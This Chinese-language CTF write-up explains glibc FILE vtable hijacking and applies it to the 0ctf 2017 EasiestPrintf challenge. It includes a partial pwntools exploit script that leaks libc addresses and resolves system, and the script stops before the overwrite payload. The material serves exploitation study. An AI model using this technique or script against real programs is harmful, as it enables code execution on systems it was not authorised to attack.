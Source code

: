 我们平时调用文件族的函数的时候（包括一些输入输出），最后都会通过虚表来调用函数，如果我们可以通过修改`signed char _vtable_offset`使其指向一个我们伪造的虚表，那么我们就可以控制eip。

利用思路：
1. 控制`_IO_FILE_plus`或`_IO_FILE`结构体的`signed char _vtable_offset`偏移使其指向我们伪造的虚表。
2. 伪造虚表中函数为我们希望程序调用的函数如`system`

利用条件：
1. 可泄露`libc`基址
2. 有一次任意地址写的机会
3. 存在一个我们知道地址的可控区域

## 例题

下面用20170ctf的Easyprintf来为例分析

> 程序在进行一次任意地址读之后有一次格式化字符串的机会，之后直接exit。在程序启用Full RELRO的情况下，选择覆盖libc中的`_IO_2_1_stdout_`结构的虚表，因为`printf`在将所有输入解析之后会调用其中的某个函数进行输出，我们可以其改为`system`，而这个结构自身会作为参数传入，覆盖虚表之后将一个`sh\0\0`写到整个结构头部即可。

先放上没什么卵用但是应该是对的并且学到了东西的exp。。。。
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *

slog = 1
local = 1
debug = 0

global p

if slog: context(log_level = 'debug')
if local:
    p = process('./EasiestPrintf')
else:
    p = remote()

if local and debug:
    gdb.attach(p, open('debug'))

elf = ELF('./EasiestPrintf')
libc = ELF('/lib32/libc.so.6')
bss_addr = elf.bss
_IO_stdout_got = 0x0804A044

'''
def exe_fmt(payload):
    p = process('./EasiestPrintf')
    p.recvuntil('read:\n')
    p.sendline(str(_IO_stdout_addr))
    p.recvuntil('Good Bye\n')
    p.sendline(payload)
    return p.recvall()
'''
def pwn():
    p.recvuntil('read:\n')
    p.sendline(str(_IO_stdout_got))
    _IO_stdout_addr = int(p.recvline(), 16)
    p.recvline('Good Bye\n')
    print '_IO_stdout_addr => ', hex(_IO_stdout_addr)
    libc.address = _IO_stdout_addr - libc.symbols['_IO_2_1_stdout_']
    system_addr = libc.symbols['system']
    print 'system_addr => ', hex(system_addr)
    _IO_file_jumps_addr = libc.symbols['_IO_file_jumps']
    print '_IO_file_jumps => ', hex(libc.symbols['_IO_file_jumps'])
```